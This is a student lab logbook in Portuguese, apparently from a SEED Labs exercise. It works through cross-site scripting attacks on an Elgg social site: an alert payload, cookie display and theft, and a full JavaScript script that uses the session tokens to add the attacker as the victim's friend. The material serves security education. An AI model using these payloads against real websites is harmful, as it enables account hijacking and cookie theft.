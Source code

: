 # Logbook 10

## Tarefa 1 - Posting a Malicious Message to Display an Alert Window

O objetivo desta tarefa era colocar o seguinte programa JavaScript no perfil do utilizador.

```
<script>
    alert(’XSS’);
</script>
```

Desta forma, sempre que um utilizador tentar aceder ao nosso perfil vai aparecer o pop-up apresentado na imagem.


![](https://i.imgur.com/FsgiFVk.png)





## Tarefa 2 - Posting a Malicious Message to Display Cookies

O propósito desta tarefa era mais uma vez inserir um programa JavaScript no perfil para que apareça as cookies relacionadas ao utilizador, como se pode ver na imagem abaixo.


![](https://i.imgur.com/r4t6yoO.png)




## Tarefa 3 - Stealing Cookies from the Victim's Machine


Nesta tarefa, o objetivo é que as cookies da vítima sejam enviadas para o atacante. Para a realização, seguimos os passos apresentados nas imagens seguintes.


![](https://i.imgur.com/CgBrYSK.png)


![](https://i.imgur.com/amyRdqF.png)


![](https://i.imgur.com/GMcbYnd.png)


![](https://i.imgur.com/uQ2DiGa.png)



## Tarefa 4 - Becoming the Victim's Friend

Nesta tarefa, é pedido que se execute um ataque semelhante ao do MySpace em 2005. Para tal, podemos entender como é o *HTTP request* através do *Firefox's HTTP inspection tool*:

http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1670585185&__elgg_token=Y6m0zDegnxD7GpUuYZsm2g&__elgg_ts=1670585185&__elgg_token=Y6m0zDegnxD7GpUuYZsm2g


De seguida, é fornecido no enunciado um esqueleto de JavaScript para completarmos com o necessário para enviar o *HTTP request*:

Código JavaScript feito:


```
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
        var token="&__elgg_token="+elgg.security.token.__elgg_token; 
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script> 
```

![](https://i.imgur.com/KUG8Cnw.png)


Adicionamos a linha `alert` para poder visualizar mais facilmente que o exploit está a funcionar como esperado.


![](https://i.imgur.com/1GsMTnx.png)


![](https://i.imgur.com/gjNeudq.png)


![](https://i.imgur.com/mWX3ucf.png)


### Questão 1:

As linhas 1 e 2 têm como objetivo criar dinamicamente o timestamp(ts) e o token para o *HTTP request* poder ser formatado corretamente e ser aceite pelo servidor. Estes valores têm de ser criados dinamicamente pois são únicos, diferindo de *request* para *request*, e utilizarão dados disponíveis apenas no momento do *request*.
    
### Questão 2:

Quando tentamos colocar o ataque no **Editor mode** não resultou, mas reparamos que teríamos que colocar no **Text Editor**.
    
#### ***Editor Mode***


![](https://i.imgur.com/OPIhdek.png)


#### ***Text Editor***


![](https://i.imgur.com/uzuntg8.png)

Com estas imagens, podemos ver que o **Editor Mode** adicionou ao texto que tínhamos inicialmente uma `tag` em HTML que imposibilita que o texto seja interpretado como um *script* e faça o *exploit*.
